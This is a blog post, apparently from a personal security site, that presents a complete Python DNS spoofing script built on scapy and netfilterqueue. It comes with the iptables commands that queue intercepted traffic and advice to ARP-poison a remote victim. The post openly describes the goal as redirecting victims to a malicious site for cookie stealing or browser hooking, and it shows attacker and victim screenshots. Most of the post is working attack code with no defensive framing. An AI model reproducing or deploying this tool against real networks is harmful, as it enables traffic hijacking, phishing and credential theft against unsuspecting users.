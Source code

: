 ```yaml
---
title: DNS Spoofer
date: 2021-06-28 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Poison DNS responses.
---
```


<p align="left">
 <img src="https://external-preview.redd.it/SRVKUe2MGSCBVB56FwBzwFZE6uxGaNZ_Vknx5vioVAw.png?auto=webp&s=b21e5b8bde6eed10e5ef54a188ebf0840e0bf8b4">
</p>



## This is a python script that poisons all DNS responses flowing though the host machine to successfully spoof a target site and redirect the victim to a malicious site of chosing.

- We use `IPTABLES` to build a **queue** to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -
    > `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic
    > `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic
    > `iptables --flush` --> flush rules after completion
- We filter the traffic like an intercepting proxy would to filter and modify DNS responses for the target site to redirect the victim to a malicious site of the attackers choosing. Many avenues of attacks can be performed like browser hooking, cookie stealing etc.
- To spoof a remote victim replace the 2nd iptables command, ARP Poison the victim to redirect all DNS traffic through our host machine and proceed as above:
    > `iptables -I FORWARD -j NFQUEUE --queue-num 0` -->  Intercept Queue for inbound traffic

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect DNS requests to this Site/Host")
    parser.add_argument("-s", "--site", dest="site", help="Target Site to DNS Spoof")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid Host,  use --help for info.")
    if not options.site:
        # code to handle error
        parser.error("\n[-] Please specify a valid site to spoof,  use --help for info.")
    return options

# Use get_payload() method to view fields for netfilterqueue objects
def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # DNSQR - DNS request / DNSRR - DNS request
    if scapy_packet.haslayer(scapy.DNSRR):
        # Filter Question Record for site name
        qname = scapy_packet[scapy.DNSQR].qname
        if options.site in qname:
            print("[+] Spoofing target: " + options.site)
            # Create DNS response
            answer = scapy.DNSRR(rrname=qname, rdata=options.host)
            scapy_packet[scapy.DNS].an = answer
            # Setting no of DNS responses
            scapy_packet[scapy.DNS].ancount = 1
            # Remove these fields and let Scapy recalculate them automatically
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len
            # Copying modified attributes to the original packet
            packet.set_payload(str(scapy_packet))
    # Forward packet to target
    packet.accept()

def iptables_set(queue_num):
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "-I", "INPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    subprocess.call(["sudo", "iptables", "-I", "OUTPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    print("[!] IPTABLE rules set succesfully! \n")

def iptables_reset():
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "--flush"])
    print("[!] IPTABLE rules reset succesfully! \n")


print("""
___  _  _ ____    ____ ___  ____ ____ ____ ____ ____ 
|  \ |\ | [__     [__  |__] |  | |  | |___ |___ |__/ 
|__/ | \| ___]    ___] |    |__| |__| |    |___ |  \ 
                                                                                                                                                                                           
      """)

try:
    options = get_arguments()
    print("[-] [NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    queue_num = input("[!] Setup IPTABLES rules with a queue number.\n - Enter a queue number: ")
    print("\n\n******************************************************************************************")
    print("[+] Spoofing all DNS traffic flowing through this machine using configured IPTABLE queues.")
    print("******************************************************************************************\n\n")
    # Creating instance of netfilterqueue obj
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(queue_num, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n")
    iptables_reset()
```

### OUTPUT:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/arpspoof1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof1.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof2.png)

